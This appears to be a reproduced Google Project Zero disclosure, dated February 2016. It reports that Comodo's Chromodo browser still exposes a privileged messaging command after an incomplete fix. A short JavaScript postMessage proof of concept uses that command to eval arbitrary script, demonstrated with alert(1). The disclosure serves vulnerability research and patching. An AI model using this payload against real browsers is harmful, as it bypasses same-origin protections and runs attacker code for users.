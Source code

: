 # Comodo "Chromodo" Browser disables same origin policy, Effectively turning off web security

> Reported by taviso@google.com, Feb 2 2016

Comodo's fix for [issue 704](https://github.com/Metnew/uxss-db/tree/master/chromodo/0-704) was incomplete, it's trivial to make the exploit work again like this:

```javascript
window.postMessage(
	JSON.stringify({
		command: "callOuterFunction",
		params: {func: "eval", arguments: ["alert(1)"]}
	}),
	"*"
)
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=713
